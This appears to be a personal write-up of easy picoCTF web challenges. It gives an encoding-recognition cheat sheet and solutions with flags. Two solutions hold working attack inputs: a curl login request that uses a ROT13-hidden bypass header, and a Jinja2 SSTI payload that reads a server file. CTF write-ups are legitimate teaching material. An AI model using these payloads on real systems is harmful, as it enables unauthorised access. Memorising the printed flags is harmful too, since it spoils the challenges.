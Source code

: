# PicoCTF

## Note

### encoding hint

- Characters are only A–Z a–z and spaces/punctuation, and text looks like garbled English → try ROT13 / Caesar (letter-substitution).
- Contains only hex digits 0-9a-f (maybe even length) → hex (ASCII hex).
- Contains A–Z a–z 0–9 + / and maybe ending = → Base64.
- Has lots of % signs and hex pairs like %20 → URL encoding.
- Starts with & and ends with ; like &lt; → HTML entities.
- Looks long and random binary when saved → could be compressed/encoded (gzip, uuencode) — use file or strings.
- Contains only digits and commas or looks numeric → maybe simple substitution or numeric codes.

using <https://gchq.github.io/CyberChef>

## Web Exploitation

### Easy

#### Crack the Gate 1

AUTHOR: YAHAYA MEDDY

Description

We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: <ctf-player@picoctf.org>. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
The website is running here. Can you try to log in?

**hint:**

- Developers sometimes leave notes in the code; but not always in plain text.
- A common trick is to rotate each letter by 13 positions in the alphabet.

**Solution:**

there is a comment in the source: ```<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->```

the comment is encode by ROT13 then decode it, ```NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"```

```sh
curl -s -X POST "<http://amiable-citadel.picoctf.net:49652/login>" \
  -H "Content-Type: application/json" \
  -H "X-Dev-Access: yes" \
  -d '{"email":"<ctf-player@picoctf.org>","password":"anything"}' | jq -r .flag
```

**flag:** ```picoCTF{brut4_f0rc4_1a386e6f}```

#### SSTI1

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

**hint:**

- Server Side Template Injection

**Solution:**

- confirm that the server is Jinja2 by using ```{{7*7}}```
- using ```{{ url_for.**globals**['**builtins**']['open']('flag').read() }}``` (Use common Flask globals (often present)) and submi

**flag:** ```picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}```

#### Cookie Monster Secret Recipe

AUTHOR: BRHANE GIDAY AND PRINCE NIYONSHUTI N.

Description

Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe?

Additional details will be available after launching your challenge instance.

**hint:**

- Sometimes, the most important information is hidden in plain sight. Have you checked all parts of the webpage?
- Cookies aren't just for eating - they're also used in web technologies!
- Web browsers often have tools that can help you inspect various aspects of a webpage, including things you can't see directly.

**Solution:**

![burp for Cookie Monster Secret Recipe](./snapshots/Cookie%20Monster%20Secret%20Recipe.png)

**flag:** ```picoCTF{c00k1e_m0nster_l0ves_c00kies_2C8040EF}```

#### WebDecode

AUTHOR: NANA AMA ATOMBO-SACKEY

Description

Do you know how to use the web inspector?

Additional details will be available after launching your challenge instance.

**hint:**

- Use the web inspector on other files included by the web page.
- The flag may or may not be encoded

**Solution:**

![WebDecode](./snapshots/WebDecode.png)

it was encoded by base64.

**flag:** ```picoCTF{web_succ3ssfully_d3c0ded_283e62fe}```

#### Unminify

AUTHOR: JEFFERY JOHN

Description

I don't like scrolling down to read the code of my website, so I've squished it. As a bonus, my pages load faster!

Additional details will be available after launching your challenge instance.

**hint:**

- Try CTRL+U / ⌘+U in your browser to view the page source. You can also add 'view-source:' before the URL, or try `curl <URL>`in your shell.
- Minification reduces the size of code, but does not change its functionality.
- What tools do developers use when working on a website? Many text editors and browsers include formatting.

**Solution:**

![Unminify](./snapshots/Unminify.png)

**flag:** ```picoCTF{pr3tty_c0d3_622b2c88}```
